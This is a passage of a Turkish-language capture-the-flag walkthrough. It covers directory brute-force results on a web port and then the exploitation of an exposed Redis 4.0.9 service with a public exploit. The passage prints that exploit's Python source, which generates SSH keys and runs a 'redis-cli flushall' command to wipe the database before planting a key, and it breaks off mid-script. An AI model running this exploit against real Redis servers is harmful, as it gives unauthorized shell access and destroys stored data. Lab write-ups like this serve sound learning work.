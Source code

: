 ```sh
000018744:   301        9 L      28 W     311 Ch      "upload"   

Total time: 146.0312
Processed Requests: 20469
Filtered Requests: 20461
Requests/sec.: 140.1686

```
İlgili adreste directory brute-force işleminde sonra elde edilenler yukarıdaki gibi , ilgi çekici dizinlerden biri upload dizini oluyor fakat ilgili dizinden herhangi bir bilgi elde edemiyoruz veya dosya yükleyemiyoruz.Bu aşamada 80 portu ile ilgili yaptığımız enumeration süreci sonlanıyor.

* Port 6379 Redis key-value store 4.0.9

İlgili porta ait olan servisle ilgili ufak bir google araştırmasından sonra karşımıza https://github.com/Avinash-acid/Redis-Server-Exploit adresindeki exploitimiz çıkıyor.

İlgili exploit , Redis sunucusunun düzgün bir şekilde yapılandırılmaması ve herhangi bir kontrol mekanizması olmadan internete açılmasından faydalanarak bize bir adet shell sağlıyor.

tabii bu shell'i bize sağlaması için içeriden valid bir kullanıcı elde etmemizi veya bilmemizi bekliyor.(Bu noktada çok basit bir deneme yaparak "redis" user'ını denedim.)
```
Valid User : redis 
```
Bu ufak ön bilgilendirmeden sonra exploit kodu içerisine gidip neyi nasıl yapıyor bir bakıyoruz ; 
```sh
#!/usr/bin/python
#Author : Avinash Kumar Thapa aka -Acid
#Twitter : https://twitter.com/m_avinash143
#####################################################################################################################################################

import os
import os.path
from sys import argv
from termcolor import colored


script, ip_address, username = argv


PATH='/usr/bin/redis-cli'
PATH1='/usr/local/bin/redis-cli'

def ssh_connection():
	shell = "ssh -i " + '$HOME/.ssh/id_rsa ' + username+"@"+ip_address
	os.system(shell)

if os.path.isfile(PATH) or os.path.isfile(PATH1):
	try:
    		print colored('\t*******************************************************************', "green")
    		print colored('\t* [+] [Exploit] Exploiting misconfigured REDIS SERVER*' ,"green")
    		print colored('\t* [+] AVINASH KUMAR THAPA aka "-Acid"                                ', "green")
		print colored('\t*******************************************************************', "green")
		print "\n"
		print colored("\t SSH Keys Need to be Generated", 'blue')
		os.system('ssh-keygen -t rsa -C \"acid_creative\"')
		print colored("\t Keys Generated Successfully", "blue")
		os.system("(echo '\r\n\'; cat $HOME/.ssh/id_rsa.pub; echo  \'\r\n\') > $HOME/.ssh/public_key.txt")
		cmd = "redis-cli -h " + ip_address + ' flushall'
```